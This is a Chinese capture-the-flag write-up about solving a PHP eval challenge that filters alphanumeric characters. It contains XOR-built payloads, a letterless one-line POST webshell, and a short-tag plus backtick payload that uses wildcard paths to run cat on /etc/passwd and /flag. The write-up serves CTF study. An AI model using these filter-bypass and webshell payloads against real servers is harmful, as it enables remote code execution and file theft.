

一开始看这题满脑子想的都是用异或来做，结果发现没办法调用getflag函数，看了别人的wp才发现思路错了。

# 错误思路

毕竟这个思路也蛮清奇，大概说一下吧：

思考这一个题目

```php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>135){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
function getFlag()
{
    echo "Flag";
}
```

code参数由正则过滤了大小写字母以及数字，那么我们可以通过符号异或构造payload。

以下脚本可以打印出符号异或得到的值，经过试验26个字母的大小写都可以通过这种方法得到：

```python
def xor():
    arr=[chr(i) for i in range(ord('a'),ord('z'))]+[chr(i) for i in range(ord('A'),ord('Z'))]
    test=['`','~','!','@','%','^','*','(',')','-','+','{','}','[',']',':','<','>','.',',',';','|']
    for i in test:
        for j in test:
            res=chr(ord(i)^ord(j))
            if res in arr:
                print i,j,res
'''
[ < g
[ > e
] ) t
| : F
@ , l
[ : a
[ < g

'[[]|@[['^'<>):,:<'
'''


if __name__ == '__main__':
    xor()
```

可以看到 '[' ^'<' ='g', '['^'>'='e', ...

那么使用`'[[]|@[['^'<>):,:<'`就可以得到字符串'getFlag'，下面就是怎么调用，想到 `$_='getFlag';$_();`等同于`getFlag();'`, 那么使用`$_='[[]|@[['^'<>):,:<';$_();`就可以调用了，那么最后的payload就是`code=$_='[[]|@[['^'<>):,:<';$_();`

按照此原理，可以构造出一句话比如：

```php
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

# 回到题目

再看一下这道题目

```php
<?php
// include 'flag.php';
// $code='[[]|@[['^'<>):,:<';
// echo $code.'()';
// @eval($code);
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){ //*
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
function getFlag()
{
    echo "Flag";
}
//$hint =  "php function getFlag() to get flag";
?>
```

在正则过滤那边，可以看到`$`和`_`都被过滤了，这直接导致了即使用上述方法得到了字符串，也没办法执行php的函数（这里纠正一下，php7中我们是可以通过`('func_name')()`在执行函数的，这样其实我的错误思路是可行的，甚至在[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)中，作者直接使用了取反字符串的方法构造了payload）。正确的做法使用php短标签是直接读文件，考虑如下php代码：

```php
<?= `ls`?>
```

执行结果



可以看到，`<? ?>`是php的短标签，效果等同于:

```php
<?php echo `ls` ?>
```


那么在eval中怎么用这个短标签呢？答案是先使用tag（`?>`）离开当前模式，再使用短标签，即```eval(?><?= `ls`?>)```。


接下来就是怎么绕过正则了，bash里面用通配符绕过就好了，即

```bash
cat /etc/passwd #替换为
/???/??t /??c/p???w?
```

因此paylaod为```code=?><?=`/???/??? /???/???/????/*`;?>``` (```code=?><?=` /bin/cat /var/www/html/*`;?>)```, 会发现php代码里面的源代码getflag那一部分的函数是是从/flag里面读取的，那么构造```code=?><?=`/???/??? /????`;?>```相当于```code=?><?=` /bin/cat /flag`;?>```即可。

